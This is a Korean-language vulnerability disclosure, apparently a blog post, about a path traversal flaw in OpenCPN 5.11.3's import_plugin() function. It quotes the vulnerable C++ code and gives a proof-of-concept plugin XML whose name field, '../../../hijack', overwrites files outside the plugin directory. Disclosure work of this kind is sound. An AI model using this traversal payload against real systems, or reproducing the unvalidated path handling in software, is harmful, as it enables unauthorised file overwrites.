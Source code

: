   title: "OpenCPN File overwrite - Path traversal",
  date: "2025-07-14 ~ 2025-07-25",
  excerpt: "OpenCPN File overwrite - import_plugin에서의 Path traversal 취약점",
  category: "보안",
  imageUrl: "/images/opencpn-command-injection.png",
  award: "",
  hidden: true,
};

[[ENG] OpenCPN File Overwrite – Path Traversal Vulnerability in import_plugin](./opencpn-path-traversal)  

**취약점 제목:**  OpenCPN File overwrite - Path traversal  
**취약점 요약:** 파일 경로 검증 없이 .meta 파일을 생성함으로 발생하는 File Overwrite  
**제조사:** GitHub Open Source Project  
**소프트웨어명:** OpenCPN  
**버전:** OpenCPN 5.11.3  
**소프트웨어 유형:** ECS (Electronic Chart System)  
**공격 유형:** Path Traversal  
**영향:** 프로세스 권한의 File Overwrite  
**취약한 파일명:** `Console.cpp`   
**취약한 함수명:** `import_plugin()`  
**취약한 파라미터:** `metadata_path = PluginHandler::ImportedMetadataPath(metadata.name);`  
**취약점 발생 환경:** Ubuntu 24.04

**Proof of Concept:**  
Opencpn/cli 내의 console.cpp를 분석 중, import_plugin()에서

```cpp
void import_plugin(const std::string& tarball_path) {
  auto handler = PluginHandler::GetInstance();
  PluginMetadata metadata;
  bool ok = handler->ExtractMetadata(tarball_path, metadata);
  if (!ok) {
    std::cerr << "Cannot extract metadata (malformed tarball?)\n";
    exit(2);
  }
  if (!PluginHandler::IsCompatible(metadata)) {
    std::cerr << "Incompatible plugin detected\n";
    exit(2)
  }
  ok = handler->InstallPlugin(metadata, tarball_path);
  if (!ok) {
    std::cerr << "Error extracting import plugin tarball.\n";
    exit(2);
  }
  metadata.is_imported = true;
  auto metadata_path = PluginHandler::ImportedMetadataPath(metadata.name);
  std::ofstream file(metadata_path);
  file << metadata.to_string();
  if (!file.good()) {
    std::cerr << "Error saving metadata file: " << metadata_path << " for imported plugin: " << metadata.name;
    exit(2);
  }
  exit(0);
}
```
`metadata` 경로 검증 과정이 없는것을 확인 후 테스트해보기 위한 xml 파일을 작성
```xml
 <?xml version="1.0" encoding="UTF-8"?>
 <plugin version="1">
 <name>../../../hijack</name>
 <version>0.0.1</version>
 <release>0</release>
 <summary>PoC</summary>
 <description>Path Traversal PoC</description>
 <target>ubuntu-x86_64</target>
 <build-target>ubuntu</build-target>
 <build-gtk>gtk3</build-gtk>
 <target-version>24.04</target-version>
 <target-arch>x86_64</target-arch>
 <api-version>1.18</api-version>
 <tarball-url>file:///nope</tarball-url>
 </plugin>
```
`<name>` 에 ..나 /를 넣어 Path traversal 시도

**취약점 기타 (파일 첨부 영상, 보고서 첨부):**  
<Video src="/videos/opencpn-path-traversal.mp4"/>    
